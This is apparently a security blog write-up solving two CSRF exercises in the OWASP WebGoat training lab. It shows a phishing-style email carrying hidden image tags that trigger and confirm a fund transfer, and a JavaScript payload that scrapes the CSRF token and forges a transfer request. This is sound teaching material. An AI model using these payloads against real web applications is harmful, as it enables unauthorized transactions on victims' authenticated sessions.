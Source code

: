 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Cross Site Scripting"
subtitle: "Cross Site Request Forgery Prompt and Token Bypass"
date:   2017-01-26 20:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# CSRF Prompt Bypass
Instructions:

- Similar to the CSRF Lesson, your goal is to send an email to a newsgroup that contains multiple malicious requests: the first to transfer funds, and the second a request to confirm the prompt that the first request triggered. The URL should point to the CSRF lesson with an extra parameter "transferFunds=4000", and "transferFunds=CONFIRM". You can copy the shortcut from the left hand menu by right clicking on the left hand menu and choosing copy shortcut. Whoever receives this email and happens to be authenticated at that time will have his funds transferred. When you think the attack is successful, refresh the page and you will find the green check on the left hand side menu.

Okay, these requests both access the same resource so it's not possible to concantenate them into a single request. Let's try to make an email that contains two hidden request images:

```
Hey everyone,

This is a totally legit email, and most definitely about a topic you care deeply for.
Just thought I would let you know that we are still interested in it as well.
Thanks!

-HackerAttacker@7proxies.net
<img src=http://192.168.56.101//WebGoat/attack?Screen=45&menu=900&transferFunds=4000 alt="" style="width:1;height:1;">
<img src=http://192.168.56.101//WebGoat/attack?Screen=45&menu=900&transferFunds=CONFIRM alt="" style="width:1;height:1;">
```

We submit it:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/group-message.jpg">

And when someone clicks it, we transfer funds and bypass the prompt confirmation that would require user interaction!

# CSRF Token Bypass
Instructions:

- Similar to the CSRF Lesson, your goal is to send an email to a newsgroup that contains a malicious request to transfer funds. To successfully complete you need to obtain a valid request token. The page that presents the transfer funds form contains a valid request token. The URL for the transfer funds page is the same as this lesson with an extra parameter "transferFunds=main". Load this page, read the token and append the token in a forged request to transferFunds.

Okay, so what is a request token? Let's send a request to ```transferFunds=main``` and see if we can see what this token is.

```
GET http://192.168.56.101/WebGoat/attack?Screen=2&menu=900%transferFunds=main HTTP/1.1
```

In the response, we see the value:

```
<input name='CSRFToken' type='hidden' value='541224727'>
```

Which is hidden in the transfer page:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-page.jpg">

When we try to send a transfer request for $1000, the following request is generated:

```
192.168.56.101/WebGoat/attack?Screen=2&menu=900transferFunds=1000&CSRFToken=541224727
```

After sending a few requests, it becomes clear that ```CSRFToken``` is a dynamic field. Alright, so we need to pull the value of the token on each request, and format that value into a CSRF attack on the user utilizing the ```transferFunds``` function. This would be likely true for any multi-user attack even if the fields were static, as we want to target all of the users with the same XSS/CSRF injection. So let's write up a payload:

```
<script>
function transferFunds(token) {
	xmlHTTP = new XMLHttpRequest();
	var transferURL= "attack?Screen=2&menu=900&transferFunds=1000&CSRFToken=" + token;
	xmlHTTP.open("POST", transferURL, false);
	xmlHTTP.send();

	alert("$1000 transferred from " + token)
}
function tokenGrabCSRF() {
	var xmlHTTP = new XMLHttpRequest();
	var tokenURL = "attack?Screen=2&menu=900&transferFunds=main";
	xmlHTTP.open("GET", tokenURL, true);
	xmlHTTP.responseType="document";
	xmlHTTP.onreadystatechange = function () {
		if(xmlHTTP.readyState == 4 && xmlHTTP.status == 200) {
			var tokenResponse = xmlHTTP.response;
			var tokenHits = tokenResponse.getElementsByName("CSRFToken");
			var token = (tokenHits[0].value);
			// now we attack
			transferFunds(token);
		}
	}
	xmlHTTP.send();
}
tokenGrabCSRF()
</script>
```

So I had to do a little more research on XMLHttpRequests and asynchronous vs. sychronous use of the ```open()``` function. It seems that most browsers don't want you to be using blocking html requests on the main thread, and that is especially true of any malicious code, as we don't want to alert the user to any weird unexplainable behavior in the site. So by using the ```onreadystatechange``` callback we are able to create our asynchronous attack.

The attack starts with the ```tokenGrabCSRF``` call. A request is generated and sent, asynchronously, to the webserver requesting the main transfer page. One important step is changing the value of ```XMLHttpRequest.responseType``` to "document". I was trying to perform this attack for a while by using the ```XMLHttpRequest.responseText``` field from the generic response, and found that the value was truncated to 9995 bytes, which only covered around half of the full response data. This was especially an issue, as the value of ```CSRFToken``` is embedded at the very end of the HTML, so I couldn't regex the value out of the text. By switching the ```responseType``` to "document" we are able to use DOM accession methods to pull the value of the token out of the response, and it doesn't seem to have the same data length restrictions as ```XMLHttpRequest.responseText```.

So continuing...When the state of the request changes ```onreadystatechange``` is triggered, our callback fires off. The callback checks to make sure that the response is a proper response to our request, and then accesses the value stored at the DOM element named```CSRFToken```. Another important note is that the ```document.getElementsByName``` function returns a list regardless of how many hits are in the document. Assumming (luckily correctly) that there was just one element with the token name, we pull the first element from the list and send its value to malicous function 2: ```transferFunds()```

```transferFunds``` is more straightforward. We just make a request to the transfer URL with our requested amount and our newly acquired ```CSRFToken``` value and our attack is complete! This was done synchronously simply because we don't care or need the response or to parse any data from it, so there is no possibility of blocking.

Now that we have completed our payload, we can inject it into an innocent looking email and send it out to our mailing list:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-email.jpg">

And when we click it, the funds are transfered using the stolen token!

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-success.jpg">

So CSRF can be utilized in XSS attacks to leverage the authentication levels of compromised users to perform unwanted actions on the authenticated application.

All your links are belong to us.

### References

[1. XMLHttpRequest Documentation][xml-http-docs]

[xml-http-docs]:https://xhr.spec.whatwg.org/#the-responsetype-attribute